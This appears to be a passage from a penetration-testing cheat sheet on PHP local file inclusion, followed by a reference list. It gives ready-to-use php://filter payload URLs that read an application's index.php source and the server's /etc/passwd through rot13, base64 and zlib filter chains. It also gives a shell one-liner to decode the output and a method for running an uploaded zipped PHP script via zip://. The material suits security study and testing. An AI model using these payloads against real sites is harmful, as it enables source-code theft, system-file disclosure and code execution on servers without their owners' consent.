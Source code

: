 [`php://filter`](https://www.php.net/manual/en/wrappers.php.php#wrappers.php.filter) is a kind of meta-wrapper
that allows filtering a stream
before the content is read.
The resulting data
is the encoded version
of the given file's source code.

{{<hint info>}}
Multiple [filter](https://www.php.net/manual/en/filters.php) chains can be specified on one path,
chained using `|` or `/`.
{{</hint>}}

#### Filter [string.rot13](https://www.php.net/manual/en/filters.string.php#filters.string.rot13).

```text
http://{{< param "m.RDOMAIN" >}}/index.php?page=php://filter/read=string.rot13/resource=index.php
```

#### Filter [convert.base64](https://www.php.net/manual/en/filters.convert.php#filters.convert.base64).

```text
http://{{< param "m.RDOMAIN" >}}/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://{{< param "m.RDOMAIN" >}}/index.php?page=php://filter/convert.base64-encode/resource=index.php
```

#### Filter chaining [zlib.deflate](https://www.php.net/manual/en/filters.compression.php#filters.compression.zlib) and [convert.base64](https://www.php.net/manual/en/filters.convert.php#filters.convert.base64).

```text
http://{{< param "m.RDOMAIN" >}}/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```

##### Base64 decode and gzip inflate.

The resulting encoded string
can be decoded and inflated
by piping it into the following PHP script:

```sh
echo [BASE64-STR] | php -r 'echo gzinflate(base64_decode(file_get_contents("php://stdin")));'
```

### zip://

[zip://](https://www.php.net/manual/en/wrappers.compression.php) is a wrapper for zip compression streams.
To leverage the zip functionalities,
upload a zipped PHP script to the server
(with the preferred extension)
and decompress in the server
using the `zip://<zipfile>#<file>`,
being `<file>` the resulting decompressed file.


[^owasp-path-traversal]: “Path Traversal - OWASP.” OWASP, https://wiki.owasp.org/index.php/Path_Traversal.
[^wiki-file-inclusion]: Contributors to Wikimedia projects. “File Inclusion Vulnerability - Wikipedia.” Wikipedia, the Free Encyclopedia, Wikimedia Foundation, Inc., 24 Nov. 2006, https://en.wikipedia.org/wiki/File_inclusion_vulnerability.
[^swissky-dt]: swisskyrepo. “PayloadsAllTheThings / Directory Traversal.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal.
[^unc-share]: “CWE-40: Path Traversal: ‘\\UNC\share\name\’ (Windows UNC Share) (4.1).” CWE -  Common Weakness Enumeration, https://cwe.mitre.org/data/definitions/40.html.
[^data-scheme]: “RFC 2397 - The ‘Data’ URL Scheme.” IETF Tools, https://tools.ietf.org/html/rfc2397.
[^apache-log]: “Log Files - Apache HTTP Server Version 2.4.” Welcome! - The Apache HTTP Server Project, https://httpd.apache.org/docs/2.4/logs.html.
[^php-wrappers]: “PHP: Supported Protocols and Wrappers - Manual.” PHP: Hypertext Preprocessor, https://www.php.net/manual/en/wrappers.php.
[^ietf-rfc2397]: “RFC 2397 - The ‘Data’ URL Scheme.” IETF Tools, https://tools.ietf.org/html/rfc2397.
[^kernel-proc]: “The /Proc Filesystem.” The Linux Kernel  Documentation, https://www.kernel.org/doc/html/latest/filesystems/proc.html.
[^route-lookup]: Bernat, Vincent. “IPv4 Route Lookup on Linux ⁕ Vincent Bernat.” MTU Ninja Vincent Bernat, https://vincent.bernat.ch/en/blog/2017-ipv4-route-lookup-linux.
[^linux-man-proc]: “Proc(5) - Linux Manual Page.” Michael Kerrisk - Man7.Org, https://man7.org/linux/man-pages/man5/proc.5.html.
[^ush-lfi2rce]: “LFI2RCE (Local File Inclusion to Remote Code Execution) Advanced Exploitation: /Proc Shortcuts.” Ush.It - a Beautiful Place, https://www.ush.it/2008/08/18/lfi2rce-local-file-inclusion-to-remote-code-execution-advanced-exploitation-proc-shortcuts/.